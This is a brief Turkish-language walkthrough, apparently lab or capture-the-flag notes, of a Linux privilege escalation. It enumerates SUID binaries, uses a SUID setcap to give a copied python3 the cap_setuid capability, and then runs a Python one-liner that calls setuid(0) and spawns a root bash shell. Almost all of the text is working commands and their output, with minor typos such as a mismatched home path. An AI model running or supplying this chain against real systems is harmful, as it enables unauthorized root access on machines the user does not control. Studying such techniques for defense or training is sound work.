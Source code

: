 Dosyayı geçerli kullanıcıdan daha yüksek bir ayrıcalık seviyesiyle çalıştırmamızı sağlayan SUID bitine sahip dosyaları bulun.
``` bash
find / -perm -u=s -type f 2>/dev/null
```
çıktı:
```
/sbin/setcap // setcap bulundu bu pv
/bin/mount
/bin/ping
```


Yetenekler kullanılarak istismar edilebilecek, seçtiğiniz ana dizininize bir ikili kopyalayın. Python'un bunu yaptığını biliyorum ve ben de yaptım

``` bash
cp /usr/bin/python3 /home/user/
```

daha sonra:
``` bash
setcap cap_setuid+ep /home/user/python3
```
daha sonra capabilitse bakıyoruz
``` bash
getcap -r / 2>/dev/null
```
Bunu görmemiz lazım çıktı:
```
/home/usr/python3  = cap_setuid+ep
```
```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
``` 



